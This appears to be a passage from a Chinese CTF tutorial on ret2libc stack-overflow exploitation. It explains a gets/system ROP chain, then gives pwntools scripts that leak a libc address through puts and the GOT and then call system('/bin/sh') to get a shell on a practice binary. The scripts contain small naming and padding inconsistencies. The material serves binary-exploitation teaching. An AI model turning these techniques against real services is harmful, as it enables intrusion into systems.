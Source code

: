 首先，类似于上面的配置，我们返回到了gets，参数为bss段上的一个地址，从键盘输入`/bin/sh`后，gets结束，返回地址为pop_ebx_ret，这时栈顶是gets的参数，我们用了pop使得它出栈，将栈上的参数作了清理，然后执行ret，此时栈顶是system的地址，所以又是类似第一次的配置，完成调用。

例3.同之前的程序，这次在plt表中找不到system了，但是有gets和puts。

既然用不了system的plt地址，那么我们就需要获得它在libc中的真实地址，这里我们就需要泄漏了。

而且，payload肯定需要发送两次，因为第一次的时候我们是不知道libc的真实地址的，所以第一次的发送用来泄漏，第二次才是真实的利用。这里就可能需要ret回main函数来循环调用程序了。同样地，我们需要知道程序用的libc版本，这里就需要用libcdb等工具进行筛选了。

最后，大多数版本的libc中，都是有`'/bin/sh'`字符串的，如果泄漏libc基地址后就可以使用了。

获取libc版本：

```python
e=ELF('ret2libc3')
p=process('ret2libc3')
puts_plt=e.plt['puts']
gets_got=e.got['gets']
printf_got=e.got['printf']
...

padding=b'#'*0x70
ret_addr=b'#'*4

payload=padding+retaddr+p32(puts_plt)+p32(_______got)#多次运行脚本，最后一项填入gets、printf等已经执行过的函数的got表地址来泄漏，取十六进制最后三位，去libcdb上查询，找到后下载so文件或者符号表。
p.send(payload)
```

exp:

```python
from pwn import *
e=ELF('ret2libc3')
libc=ELF('libc.so.6')
p=process('ret2libc3')

puts_plt=e.plt['puts']
gets_got=e.got['gets']
main = e.symbols['main']
fake_ret_addr=b'#'*4

p.recv()
payload=b'#'*0x70+p32(puts_plt)+p32(main_addr)+p32(gets_got)
p.send(payload)

gets_libc=u32(p.recv()[0:4])
libc_base=gets_libc-libc.symbols['gets']
print('libc_base='+hex(libc_base))
system_libc=libc.symbols['system']+libc_base
sh_str=next(libc.search(b'/bin/sh'))+libc_base

#这里puts执行后，返回地址为main函数，第二次执行main里的gets。这里我们不用管前面的栈布局了，就当成新一次的main函数上的栈溢出漏洞就行

payload=b'#'*0x68+p32(system_libc)+fake_ret_addr+p32(sh_str)#0x68是动态调试得到的填充长度
p.send(payload)
p.interactive()

```





